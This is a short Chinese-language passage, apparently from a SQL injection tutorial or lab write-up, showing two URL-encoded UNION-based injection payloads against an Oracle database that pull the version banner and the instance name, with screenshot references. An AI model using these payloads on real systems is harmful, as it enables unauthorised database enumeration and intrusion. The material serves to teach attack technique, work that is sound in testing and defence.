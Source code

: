 那么这里说明两个字段都为字符型。

然后用select+banner+from+sys.v\_$version+where+rownum=1查询数据库版本信息：

6340d33754bf402798a6051733698a3c'+union+select+'1',(select+banner+from+sys.v\_$version+where+rownum=1)+from+dual--

![image.png](assets/1701153934-fc46ae59e9cd0d323f6b45b25cc2243b.png)

select instance\_name from V$INSTANCE查询当前数据库

6340d33754bf402798a6051733698a3c'+union+select+'1',(select+instance\_name+from+V$INSTANCE)+from+dual--

![image.png](assets/1701153934-648fbbde2ab32b6d916c6207957a57d4.png)
